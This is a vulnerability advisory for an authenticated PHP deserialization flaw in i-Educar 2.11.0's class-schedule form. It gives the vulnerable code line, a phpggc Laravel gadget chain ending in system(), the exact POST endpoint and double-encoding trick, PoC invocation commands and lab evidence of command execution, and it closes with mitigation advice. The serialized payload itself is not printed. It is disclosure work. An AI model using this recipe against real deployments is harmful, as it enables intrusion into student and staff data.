

# PHP object injection in `educar_quadro_horario_horarios_cad.php`

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-502 Deserialization of Untrusted Data — https://cwe.mitre.org/data/definitions/502.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` = **9.9 Critical** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `POST /intranet/educar_quadro_horario_horarios_cad.php` — parameter(s): `quadro_horario`
- **Authentication:** login required; the caller needs permission on process 641 (class schedule form). Verified with the admin profile.
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

The class-schedule form calls `unserialize()` on the `quadro_horario` POST
parameter without any class allowlist, signature or structure validation. An
authenticated user can submit a serialized object graph and trigger magic
methods of classes that the application autoloads. The PoC uses a gadget chain
available in the installed dependencies (Laravel 13.21.1 + league/commonmark)
that ends in `system()`, giving command execution inside the `ieducar-fpm`
container.

Note on the originally reported chain: the report described a Monolog
`FingersCrossedHandler::__destruct()` → `ProcessHandler` chain. The installed
Monolog is 3.10.0 and in that version `FingersCrossedHandler` has no
`__destruct()` method (and `ProcessHandler::write()` is not reachable from
object destruction), so that specific chain does not trigger. The vulnerability
itself — unrestricted `unserialize()` of user input — was confirmed, and a
working chain for this exact dependency set is documented and verified below.

## Root cause

`ieducar/intranet/educar_quadro_horario_horarios_cad.php:280` (inside
`Gerar()`, reached when the form is rendered):

```php
if ($_POST['quadro_horario']) {
    $this->quadro_horario = unserialize(data: urldecode(string: $_POST['quadro_horario']));
}
```

The same pattern appears at lines 550 and 664 for the round-tripped property.
The deserializer instantiates any autoloadable class with attacker-controlled
properties; PHP then invokes destructors/magic methods on the resulting object
graph at request shutdown.

Verified gadget chain (phpggc `Laravel/RCE22`, author mcdruid; reproduced
against this lab's Laravel 13.21.1):

```
Illuminate\Broadcasting\PendingBroadcast::__destruct()
  -> $this->events->dispatch($this->event)             // events = CommonMark Environment
  -> League\CommonMark\Environment\Environment::dispatch($channel)
  -> listener Illuminate\Support\Testing\Fakes\ChainedBatchTruthTest::__invoke($channel)
  -> call_user_func('system', (string) $channel)        // Channel::__toString() = command
  -> system('id > /tmp/poc08marker')
```

The payload contains only classes shipped with the application
(`Illuminate\Broadcasting\PendingBroadcast`,
`League\CommonMark\Environment\Environment`,
`League\CommonMark\Util\PrioritizedList`,
`League\CommonMark\Event\ListenerData`,
`Illuminate\Broadcasting\Channel`,
`Illuminate\Support\Testing\Fakes\ChainedBatchTruthTest`), so no class-injection
primitive is needed.

## Proof of concept

1. Log in with an account allowed to open the class-schedule form (process
   641), for example `admin`.
2. POST to
   `/intranet/educar_quadro_horario_horarios_cad.php?ref_cod_turma=3&ref_cod_quadro_horario=1&ref_cod_instituicao=1&ref_cod_escola=2&ref_cod_curso=3&ref_cod_serie=6&ano=2026&ref_cod_disciplina=3&dia_semana=1`
   with `quadro_horario` set to the serialized payload. The page applies
   `urldecode()` to the already form-decoded value, so the parameter must be
   percent-encoded twice:
   `quadro_horario = quote(quote(payload))`.
3. The command runs at request shutdown; read the marker inside the container:
   `docker compose exec fpm cat /tmp/poc08marker` →
   `uid=1000(ieducar) gid=1000(ieducar) groups=1000(ieducar),1000(ieducar)`.
4. The PoC uses a payload that executes `id > /tmp/poc08marker` (no data
   modified) and removes the marker afterwards.

```bash
python3 i-explorar.py            # pick [08]
# or standalone:
python3 vulns/08-quadro-horario-object-injection/poc.py --target http://127.0.0.1:8080
```

The serialized payload is embedded in the PoC as base64 (772 bytes) so the PoC
remains Python-stdlib-only. It was generated with phpggc for
`system('id > /tmp/poc08marker')`.

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001724Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:24.239334+00:00
# host: -03
# target: http://127.0.0.1:8080
# payload: 772 bytes (phpggc Laravel/RCE22, system('id > /tmp/poc08marker'))

### POST /intranet/educar_quadro_horario_horarios_cad.php
HTTP 200

--- body head ---
<!DOCTYPE html>
<html lang="pt" class="no-js">
<head>
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <meta http-equiv='Content-Type' content='text/html; charset=UTF-8'>
    <meta http-equiv="Pragma" content="no-cache">
    <meta http-equiv="Expires" content="-1">
    
--- end body head ---
$ docker compose exec -T fpm cat /tmp/poc08marker

--- marker output ---
uid=1000(ieducar) gid=1000(ieducar) groups=1000(ieducar),1000(ieducar)
--- end marker output ---
# finished_at: 2026-09-11T00:17:25.028601+00:00
```

## Screenshots



Caption: console capture of the PoC run — the serialized payload is accepted
by the form page and the command output is read back from the `ieducar-fpm`
container.

## Impact

An authenticated user with access to the schedule form obtains arbitrary
command execution as the web user inside the application container:

- read `.env` (APP_KEY, DB credentials) and any file readable by `ieducar`;
- exfiltrate or modify student/staff data through direct database access;
- establish persistence and pivot to the Postgres/Redis containers on the
  compose network;
- destroy data or take the application down.

Because the deserializer is reached on a simple form POST, the attack does not
require a valid form state or CSRF token.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory);
  the Monolog chain from the original report was tested and does not apply to
  Monolog 3.10.0, the phpggc `Laravel/RCE22` chain was verified instead
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Do not accept serialized objects from the client. Replace the hidden-field
  round-trip with a signed, server-side representation (for example a session
  key, JSON with a strict schema, or an integrity HMAC) and never call
  `unserialize()` on raw POST data.
- Where `unserialize()` cannot be removed, pass
  `['allowed_classes' => false]` and validate the resulting structure.
- Keep dependencies patched: gadget chains change with framework versions, and
  a fixed chain today can be replaced by another one tomorrow. The only robust
  fix is to stop deserializing untrusted input.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- phpggc gadget chain used (Laravel/RCE22): https://github.com/ambionics/phpggc/blob/master/gadgetchains/Laravel/RCE/22/gadgets.php
- CWE-502: https://cwe.mitre.org/data/definitions/502.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/08-quadro-horario-object-injection/README.md
